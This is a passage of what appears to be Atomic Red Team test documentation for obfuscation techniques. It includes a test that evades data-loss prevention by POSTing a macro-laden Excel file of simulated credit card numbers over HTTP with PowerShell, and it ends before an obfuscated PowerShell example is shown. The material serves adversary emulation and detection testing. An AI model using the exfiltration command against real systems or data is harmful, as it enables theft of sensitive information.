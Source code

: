 




<br/>
<br/>

## Atomic Test #7 - DLP Evasion via Sensitive Data in VBA Macro over HTTP
Upon successful execution, an excel containing VBA Macro containing sensitive data will be sent outside the network using HTTP.
Sensitive data includes about around 20 odd simulated credit card numbers that passes the LUHN check.

**Supported Platforms:** Windows


**auto_generated_guid:** e2d85e66-cb66-4ed7-93b1-833fc56c9319





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the XLSM file | path | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm|
| ip_address | Destination IP address | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body "#{input_file}"
```






<br/>
<br/>

## Atomic Test #8 - Obfuscated Command in PowerShell
This is an obfuscated PowerShell command which when executed prints "Hello, from PowerShell!". Example is from the 2021 Threat Detection Report by Red Canary.

**Supported Platforms:** Windows


**auto_generated_guid:** 8b3f4ed6-077b-4bdd-891c-2d237f19410f






#### Attack Commands: Run with `powershell`! 

